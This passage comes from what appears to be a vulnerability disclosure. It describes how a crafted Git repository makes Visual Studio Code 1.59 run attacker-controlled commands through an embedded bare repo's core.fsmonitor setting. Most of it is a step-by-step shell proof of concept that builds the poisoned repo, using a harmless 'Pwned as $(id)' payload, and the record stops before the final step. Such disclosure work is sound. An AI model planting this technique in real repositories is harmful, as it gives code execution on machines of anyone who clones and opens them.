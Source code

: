 From version 1.63.1 onwards, the Git extension opts in to the Workspace Trust feature, causing the dangerous functionality to be disabled if the user chooses to not trust the workspace being opened.

### Visual Studio Code POC (Chained with OVE-20210718-0001 via `git clone`)

Visual Studio Code's [Workspace Settings](https://code.visualstudio.com/docs/getstarted/settings), which are provided by a workspace's `.vscode/settings.json` file, give us an interesting opportunity to chain with OVE-20210718-0001.

We can have a cloneable Git repo which:

* Has a `.vscode/settings.json` file which uses the `git.ignoredRepositories` configuration parameter to tell Visual Studio Code to ignore the root directory for Git repository purposes
* Has a `poison/` directory which contains an embedded bare repo with a malicious `config` file, per OVE-20210718-0001

Upon cloning and opening the root directory of such a crafted Git repository, Visual Studio Code will ignore the `.git` in the root of the workspace and will crawl the remainder of the workspace's directories in search of a Git repository. It will then execute `git` against the bare repo embedded in the `poison/` directory, executing our payload via `core.fsmonitor`

Start off by running the image from the above POC as a container with X passed through and the seccomp profile specified:

```plain
% sudo -g docker docker run --rm -ti --env=DISPLAY --volume=/tmp/.X11-unix:/tmp/.X11-unix:ro --shm-size=8g --security-opt=seccomp:$(pwd)/chrome_with_statx.json --ipc=host justinsteven/vscode bash

user@a46e008b1311:/$ code -v
1.59.0
379476f0e13988d90fab105c5c19e7abc8b1dea8
x64
```

Create a new Git repo with an embedded bare repo (per OVE-20210718-0001):

```plain
user@a46e008b1311:/$ cd $(mktemp -d)

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git init
Initialized empty Git repository in /tmp/tmp.FBZkahzNAG/.git/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ mkdir poison

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ cd poison/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ echo 'ref: refs/heads/main' > HEAD

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ cat > config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	worktree = "worktree"
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win;false"
^D

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ mkdir objects refs worktree

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ touch worktree/.gitkeep

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ git add .gitkeep

user@a46e008b1311:/tmp/tmp.FBZkahzNAG/poison$ git commit -m 'add gitkeep'
[main (root-commit) 6836c86] add gitkeep
 1 file changed, 0 insertions(+), 0 deletions(-)
```